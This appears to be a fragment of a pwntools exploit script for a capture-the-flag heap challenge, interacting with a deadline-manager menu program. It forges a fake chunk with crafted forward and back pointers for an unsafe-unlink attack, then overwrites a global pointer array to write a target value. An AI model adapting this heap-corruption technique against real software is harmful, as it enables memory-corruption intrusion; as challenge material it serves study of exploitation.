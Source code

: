 ```python


def edit_ddl_conn(index: int, time_nolf: str = 'time', content: str = 'content'):
    conn.sendlineafter('Your chocie:\n', '4')
    conn.sendlineafter('please input the ddl index\n', str(index))
    conn.sendafter('please input the new ddl time\n', time_nolf)
    conn.sendlineafter('please input the new ddl content\n', content)


def exit_conn():
    conn.sendlineafter('Your chocie:\n', '5')
    conn.recvuntil('see you next time!\n')


def check_conn():
    conn.sendlineafter('Your chocie:\n', '6')
    conn.recv()


add_ddl_conn()  # A
add_ddl_conn()  # B
add_ddl_conn()  # C


size_fake_chunk = 0x5f0
addr_targetID = binary.sym['targetID']  # 0x6020c0
addr_array = binary.sym['array']        # 0x6020e0
addr_array0 = 0x603260                  # = *addr_array

edit_ddl_conn(index=1,
              time_nolf=p64(addr_array0)     # *P == fake_chunk.mchunk_prev_size
              + p64(size_fake_chunk | 1)     # fake_chunk.mchunk_size (P=1)
              + p64(addr_array - 0x18)       # FD->bk == addr_array0
              + p64(addr_array - 0x10),      # BK->fd == addr_array0
              content=p64(0)                 # P->fd_nextsize
              + b'A' * (DDL_CONTENT - 0x10)  # ...
              + p64(size_fake_chunk))        # next_chunk.mchunk_prev_size


finish_ddl_conn(2)


# array[0][24] = array[0] = &targetID
edit_ddl_conn(index=1, time_nolf=p192(0x666)+p64(addr_targetID))

# array[0][0] = *(&targetID) = 3180103012
edit_ddl_conn(index=1, time_nolf=p64(3180103012) + b'\n')


check_conn()


conn.interactive()
```
